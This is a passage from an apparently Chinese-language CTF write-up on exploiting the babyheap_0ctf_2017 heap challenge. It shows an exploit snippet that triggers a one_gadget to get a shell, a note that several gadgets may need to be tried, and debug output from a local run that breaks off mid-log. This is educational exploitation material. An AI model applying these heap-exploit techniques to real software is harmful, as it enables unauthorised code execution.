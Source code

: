 我本机上的one_gadget如下图所示，可能需要尝试并更换多个one_gadget才能getshell：

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1604720295529-f9788e54-ee53-4744-bbcc-fbf87b37eb44.png)

```c
#再申请一下触发one_gadget
alloc(255)
p.interactive()
```

## exp_debug
```c
➜  Desktop python yichen_exp.py 
[+] Starting local process './babyheap_0ctf_2017_patch' argv=['./babyheap_0ctf_2017_patch'] : pid 15293
[DEBUG] PLT 0x9b0 free
[DEBUG] PLT 0x9b8 __errno_location
[DEBUG] PLT 0x9c0 puts
[DEBUG] PLT 0x9c8 write
[DEBUG] PLT 0x9d0 __stack_chk_fail
[DEBUG] PLT 0x9d8 mmap
[DEBUG] PLT 0x9e0 printf
[DEBUG] PLT 0x9e8 alarm
[DEBUG] PLT 0x9f0 close
[DEBUG] PLT 0x9f8 read
[DEBUG] PLT 0xa00 __libc_start_main
[DEBUG] PLT 0xa08 calloc
[DEBUG] PLT 0xa10 __gmon_start__
[DEBUG] PLT 0xa18 setvbuf
[DEBUG] PLT 0xa20 atol
[DEBUG] PLT 0xa28 open
[DEBUG] PLT 0xa30 exit
[DEBUG] PLT 0xa38 __cxa_finalize
[*] '/home/ubuntu/Desktop/babyheap_0ctf_2017_patch'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[DEBUG] Received 0x53 bytes:
    '===== Baby Heap in 2017 =====\n'
    '1. Allocate\n'
    '2. Fill\n'
    '3. Free\n'
    '4. Dump\n'
    '5. Exit\n'
    'Command: '
[DEBUG] Sent 0x2 bytes:
    '1\n'
[DEBUG] Received 0x6 bytes:
    'Size: '
[DEBUG] Sent 0x3 bytes:
    '16\n'
[DEBUG] Received 0x46 bytes:
    'Allocate Index 0\n'
    '1. Allocate\n'
    '2. Fill\n'
    '3. Free\n'
    '4. Dump\n'
    '5. Exit\n'
    'Command: '
[DEBUG] Sent 0x2 bytes:
    '1\n'
[DEBUG] Received 0x6 bytes:
```